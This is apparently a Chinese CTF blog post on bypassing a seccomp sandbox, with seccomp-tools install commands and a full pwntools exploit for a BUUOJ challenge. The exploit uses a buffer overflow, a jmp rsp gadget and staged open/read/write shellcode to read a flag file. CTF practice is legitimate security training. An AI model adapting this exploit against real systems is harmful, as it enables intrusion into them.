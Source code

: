 ```yaml
---
title: orw
tags: [ctf-pwn]
date: 2023-10-18 18:11:00
categories: [ctf-pwn]
excerpt: 沙箱保护机制
---
```


##### 安装seccomp

```shell
sudo apt install gcc ruby-dev
gem install seccomp-tools
```

<https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Not%20Bad>

![](/img/orw/1.jpg)



```python
from pwn import *
#p = process("./bad")
p=remote("node4.buuoj.cn",28003)

context(arch='amd64', os='linux')
mmap=0x123000
jmp_rsp = 0x400A01
orw_payload = shellcraft.open("./flag")
orw_payload += shellcraft.read(3, mmap, 0x50)
orw_payload += shellcraft.write(1, mmap,0x50)

payload=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
payload=payload.ljust(0x28,b'\x00')
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')
p.recvuntil('Easy shellcode, have fun!')
p.sendline(payload)

shellcode=asm(orw_payload)
p.sendline(shellcode)
p.interactive()
```

